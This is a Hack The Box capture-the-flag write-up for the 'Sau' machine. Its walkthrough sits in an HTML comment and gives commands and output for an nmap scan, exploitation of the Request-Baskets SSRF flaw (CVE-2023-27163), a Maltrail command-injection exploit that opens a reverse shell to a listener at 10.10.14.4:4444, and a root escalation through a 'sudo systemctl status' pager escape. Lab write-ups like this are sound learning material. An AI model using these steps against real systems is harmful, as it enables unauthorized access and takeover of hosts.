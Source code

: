 ```yaml
---
title: HTB - Sau
date: 2023-12-04
categories: [CTF, HTB]
tags: [nmap, cve-2023-27163, ssrf, command-injection, request-baskets, maltrail]
img_path: /assets/sau/
published: true
---
```


![room_banner](sau_banner.png)

## Overview

|:-:|:-:|
|Machine|[Sau](https://app.hackthebox.com/machines/551)|
|Rank|Easy|
|Time|1h26m|
|Focus|SSRF, command-injection|

> CONTENT HIDDEN - ACTIVE MACHINE!
{: .prompt-warning}

<!-- 
## 1. Information Gathering

```shell
# TCP SYN all ports scanning
sudo nmap -sS -sC -sV -O -Pn --min-rate 10000 -p- sau

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
55555/tcp open  unknown
| fingerprint-strings:
|   FourOhFourRequest:
|     HTTP/1.0 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     X-Content-Type-Options: nosniff
|     Date: Mon, 04 Dec 2023 13:59:49 GMT
|     Content-Length: 75
|     invalid basket name; the name does not match pattern: ^[wd-_\.]{1,250}$
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie:
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest:
|     HTTP/1.0 302 Found
|     Content-Type: text/html; charset=utf-8
|     Location: /web
|     Date: Mon, 04 Dec 2023 13:59:22 GMT
|     Content-Length: 27
|     href="/web">Found</a>.
|   HTTPOptions:
|     HTTP/1.0 200 OK
|     Allow: GET, OPTIONS
|     Date: Mon, 04 Dec 2023 13:59:22 GMT
|_    Content-Length: 0

Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## 2. Initial Foothold

![](homepage.png)

![](request-baskets_version.png)

> Source: [Request-Baskets 1.2.1 Server-Side Request Forgery (CVE-2023–27163)](https://medium.com/@li_allouche/request-baskets-1-2-1-server-side-request-forgery-cve-2023-27163-2bab94f201f7)
> 
> _**Request Baskets** is a web service designed to capture arbitrary HTTP requests and facilitate their inspection through either a RESTful API or a straightforward web user interface._
>
> *[CVE-2023-27163](https://nvd.nist.gov/vuln/detail/CVE-2023-27163) represents a critical **Server-Side Request Forgery (SSRF) vulnerability** that was identified in Request-Baskets, affecting all versions up to and including 1.2.1. This particular vulnerability grants malicious actors the ability to gain unauthorized access to network resources and sensitive information by exploiting the `/api/baskets/{name}` component through carefully crafted API requests.*
>
> *As previously mentioned, Request-Baskets operates as a web application designed to collect and log incoming HTTP requests directed to specific endpoints known as “baskets.” During the creation of these baskets, users have the flexibility to specify alternative servers to which these requests should be forwarded. **The critical issue here lies in the fact that users can inadvertently specify services they shouldn’t have access to, including those typically restricted within a network environment**.*
>
> *For example, consider a scenario where the server hosts Request-Baskets on port 55555 and simultaneously runs a Flask web server on port 8000. The Flask server, however, is configured to exclusively interact with the localhost. In this context, an attacker can exploit the SSRF vulnerability by creating a basket that forwards requests to http://localhost:8000, effectively bypassing the previous network restrictions and gaining access to the Flask web server, which should have been restricted to local access only.*

> [PoC of SSRF on Request-Baskets (CVE-2023-27163)](https://github.com/entr0pie/CVE-2023-27163/tree/main)

```shell
# enumerating internal webserver
 ./CVE-2023-27163.sh http://sau:55555 http://localhost:80
Proof-of-Concept of SSRF on Request-Baskets (CVE-2023-27163) || More info at https://github.com/entr0pie/CVE-2023-27163

> Creating the "kwpjxa" proxy basket...
> Basket created!
> Accessing http://sau:55555/kwpjxa now makes the server request to http://localhost:80.
> Authorization: TOXDrjpjR4bfvkkSGah34Nvu3r8L7pv3mV3ECGG_IacT
```

![](internal_webserver.png)

> [Maltrail-v0.53-Exploit](https://github.com/spookier/Maltrail-v0.53-Exploit) - Command Injection Vulnerability

```shell
# running maltrail PoC through request-baskets
python3 exploit.py 10.10.14.4 4444 http://sau:55555/kwpjxa
Running exploit on http://sau:55555/kwpjxa/login
```

```shell
# catching a shell
nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.4] from (UNKNOWN) [10.10.11.224] 33162
$
```

```shell
# user flag
puma@sau:~$ cat ~/user.txt
cat ~/user.txt
```

## 3. Privilege Escalation

```shell
# checking perms
puma@sau:~$ sudo -l
sudo -l
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```

> `sudo systemctl status [service]` [privilege escalation](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-systemctl-privilege-escalation/#spawn-shell-in-the-pager).

```shell
puma@sau:/opt/maltrail$ sudo /usr/bin/systemctl status trail.service
sudo /usr/bin/systemctl status trail.service
WARNING: terminal is not fully functional
-  (press RETURN)!sh
!sshh!sh
# cat /root/root.txt
cat /root/root.txt
```
 -->

<figure>
    <img src="sau_pwned.png"
    alt="Machine pwned" >
</figure>